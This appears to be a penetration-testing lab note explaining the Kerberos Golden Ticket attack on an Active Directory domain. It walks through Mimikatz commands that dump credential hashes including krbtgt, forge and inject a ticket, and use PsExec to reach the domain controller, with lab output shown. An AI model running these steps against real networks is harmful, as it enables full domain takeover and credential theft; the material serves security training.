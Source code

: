 # Golden Ticket

## Recap

When a user requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC), the KDC encrypts the TGT with a secret only known to the KDC. **The secret is actually the password hash to the user: **_<mark style="color:yellow;">**krbtgt.**</mark>_

_**If we get our hands on the**** **<mark style="color:yellow;">**krbtgt**</mark>** ****password hash we can create our own self made TGT tickets, know as**** **<mark style="color:yellow;">**a Golden Tickets.**</mark>_



### Golden Ticket vs Silver Ticket

Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets are a much more powerful attack vector that gives us access to the entire domain.

<mark style="color:red;">**NOTE:**</mark> We must carefully protect stolen _krbtgt_ password hashes because they grant unlimited domain access.&#x20;



## Prerequisites

For a successful attack we need the following:

* Access to Domain Admin account or compromised Domain Controller.



## Attack

## Attempting to laterally move

We will try to laterally move with our current ticket. We are **denied access.**

```powershell
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access DC1:
Access is denied.
```



### Launching Mimikatz

With access to Domain Admin we can extract the password hash of krbtgt

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```



### Creating Golden Ticket & Injecting to Memory

Next we can create the Golden Ticket & Inject it into memory

```powershell
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```



### Verifying Success

We can try to laterally move now and verify we have successfully completed the attack

```powershell
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32>whoami
```
